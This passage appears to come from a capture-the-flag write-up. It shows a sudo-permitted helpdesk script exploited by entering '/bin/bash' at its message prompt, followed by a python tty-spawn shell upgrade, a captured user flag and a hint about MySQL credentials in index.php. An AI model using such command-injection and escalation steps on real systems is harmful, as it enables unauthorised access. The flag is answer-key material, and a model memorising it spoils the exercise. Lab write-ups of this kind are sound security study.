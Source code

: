 ```text
sudo -u apaar /home/apaar/.helpline.sh
```

```text
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: asdf
Hello user! I am asdf,  Please enter your message: /bin/bash 
python3 -c 'import tty; tty.spawn("/bin/bash")'

pwd
/home/apaar
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

{% hint style="info" %}
/var/www/files/hacker.php seems to link to mysql credentials

In index.php
{% endhint %}

![](../../.gitbook/assets/image%20%2876%29.png)

